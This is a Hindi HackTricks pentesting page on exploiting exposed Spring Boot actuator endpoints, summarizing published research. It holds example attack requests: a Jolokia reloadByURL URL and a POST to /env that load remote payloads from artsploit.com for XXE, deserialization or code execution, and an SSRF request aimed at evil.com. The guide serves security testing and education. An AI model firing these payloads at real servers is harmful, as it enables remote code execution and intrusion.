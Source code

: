 # स्प्रिंग एक्ट्यूएटर्स

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** पर **फॉलो** करें 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## **स्प्रिंग ऑथ बायपास**

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

**से** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## स्प्रिंग बूट एक्ट्यूएटर्स का शोषण

**मूल पोस्ट की जाँच करें** [**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **मुख्य बिंदु:**

- स्प्रिंग बूट एक्ट्यूएटर्स `/health`, `/trace`, `/beans`, `/env` आदि जैसे एंडपॉइंट्स को रजिस्टर करते हैं। संस्करण 1 से 1.4 तक, इन एंडपॉइंट्स ताकतवर प्रमाणीकरण के बिना पहुंचे जा सकते हैं। संस्करण 1.5 के बाद, केवल `/health` और `/info` डिफ़ॉल्ट रूप से गैर-संवेदनशील हैं, लेकिन डेवलपर्स अक्सर इस सुरक्षा को अक्षम कर देते हैं।
- कुछ एक्ट्यूएटर एंडपॉइंट्स संवेदनशील डेटा को उजागर कर सकते हैं या हानिकारक क्रियाएँ संभव बना सकते हैं:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, और `/heapdump`.
- स्प्रिंग बूट 1.x में, एक्ट्यूएटर्स मुख्य URL के तहत पंजीकृत होते हैं, जबकि 2.x में, वे `/actuator/` मूल पथ के तहत होते हैं।

### **शोषण तकनीकें:**

1. **'/jolokia' के माध्यम से दूरस्थ कोड निष्पादन**:
- `/jolokia` एक्ट्यूएटर एंडपॉइंट Jolokia पुस्तकालय को उजागर करता है, जो MBeans को HTTP उपयोग की अनुमति देता है।
- `reloadByURL` क्रिया का शोषण किया जा सकता है ताकि बाह्य URL से लॉगिंग विन्यासों को पुनः लोड किया जा सके, जो क्राफ्टेड XML विन्यासों के माध्यम से अंधेरे XXE या दूरस्थ कोड निष्पादन तक ले जा सकता है।
- उदाहरण शोषण URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.

2. **'/env' के माध्यम से कॉन्फ़िगरेशन संशोधन**:
- यदि स्प्रिंग क्लाउड पुस्तकालय मौजूद हैं, तो `/env` एंडपॉइंट पर्यावरणीय गुणों का संशोधन करने की अनुमति देता है।
- गुणों को दुर्भाग्यपूर्णताओं का शोषण करने के लिए प्रयोग किया जा सकता है, जैसे Eureka serviceURL में XStream डिसीरियलाइज़ेशन वंशानुक्रमण विकल्प।
- उदाहरण शोषण POST अनुरोध:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **अन्य उपयोगी सेटिंग्स**:
- गुण जैसे `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, और `spring.datasource.tomcat.max-active` को विभिन्न शोषणों के लिए संशोधित किया जा सकता है, जैसे SQL इन्जेक्शन या डेटाबेस कनेक्शन स्ट्रिंग को बदलना।

### **अतिरिक्त जानकारी:**

- एक पूर्ण सूची में डिफ़ॉल्ट एक्ट्यूएटर्स [यहाँ](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) मिल सकती है।
- स्प्रिंग बूट 2.x में `/env` एंडपॉइंट गुणों के संशोधन के लिए JSON प्रारूप का उपयोग करता है, लेकिन सामान्य अवधारणा वही रहती है।

### **संबंधित विषय:**

1. **Env + H2 RCE**:
- `/env` एंडपॉइंट और H2 डेटाबेस के संयोजन का शोषण करने के विवरण [यहाँ](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) मिल सकते हैं।

2. **गलत पथनामा व्याख्या के माध्यम से स्प्रिंग बूट पर SSRF**:
- मैट्रिक्स पैरामीटर्स (`;`) का स्प्रिंग फ्रेमवर्क के HTTP पथनामों में संचालन को सर्वर-साइड अनुरोध फर्जी (SSRF) के लिए शोषण किया जा सकता है।
- उदाहरण शोषण अनुरोध:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
